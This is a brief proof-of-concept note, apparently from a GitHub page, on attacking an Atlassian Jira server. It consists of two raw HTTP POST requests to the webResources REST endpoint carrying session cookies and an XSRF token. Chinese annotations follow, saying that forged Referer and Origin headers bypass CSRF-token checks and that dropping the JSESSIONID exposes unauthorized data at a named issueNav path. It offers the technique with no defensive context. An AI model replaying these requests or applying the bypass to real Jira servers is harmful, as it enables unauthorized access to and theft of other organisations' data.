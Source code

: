POST /rest/webResources/1.0/resources HTTP/1.1
Accept: application/json, text/javascript, */*; q=0.01
Referer: http://192.168.1.174:8080/secure/Dashboard.jspa
Origin: http://192.168.1.174:8080
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:31.0) Gecko/20100101 Firefox/31.0
Content-Type: application/json
Content-Length: 372
Cookie: atlassian.xsrf.token=BRT3-0ULN-F448-KLOV|95c67182b6b29877d78dc99ce267d973d16073ae|lout; JSESSIONID=4C17AC1A9308A3B62DC693BFA8F07FD8
Connection: Keep-alive
Accept-Encoding: gzip,deflate
Accept-Language: zh-CN,en,*
Host: 192.168.1.174:8080
Pragma: no-cache
Cache-Control: no-cache

{"r":[],"c":["jira.webresources:mentions-feature"],"xc":["_super","atl.dashboard","atl.general","jira.general","jira.global"],"xr":["jira.webresources:calendar-lib","com.atlassian.auiplugin:aui-labels","jira.webresources:global-static","jira.webresources:groupbrowser","jira.webresources:group-pickers","com.atlassian.feedback.jira-feedback-plugin:button-resources-init"]}


POST /rest/webResources/1.0/resources HTTP/1.1
Accept: application/json, text/javascript, */*; q=0.01
Referer: http://192.168.1.174:8080/secure/AboutPage.jspa/secure/AboutPage.jspa
Origin: http://192.168.1.174:8080
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:31.0) Gecko/20100101 Firefox/31.0
Content-Type: application/json
Content-Length: 398
Cookie: atlassian.xsrf.token=BRT3-0ULN-F448-KLOV|95c67182b6b29877d78dc99ce267d973d16073ae|lout; JSESSIONID=4C17AC1A9308A3B62DC693BFA8F07FD8
Connection: Keep-alive
Accept-Encoding: gzip,deflate
Accept-Language: zh-CN,en,*
Host: 192.168.1.174:8080
Pragma: no-cache
Cache-Control: no-cache

{"r":[],"c":["browser-metrics-plugin.contrib"],"xc":["_super","atl.general","jira.general","jira.global","atl.global"],"xr":["jira.webresources:calendar-lib","jira.webresources:autocomplete","jira.webresources:groupbrowser","jira.webresources:group-pickers","com.atlassian.auiplugin:aui-labels","jira.webresources:global-static","com.atlassian.feedback.jira-feedback-plugin:button-resources-init"]}

通过伪造 Referer和Origin 可绕过 csrf-token校验

Referer: http://192.168.1.179:8081/secure/Dashboard.jspa
Origin: http://192.168.1.179:8081

删除 jsessionid 获取非授权数据
http://192.168.1.179:8081/rest/issueNav/1/issueNav/operations/views
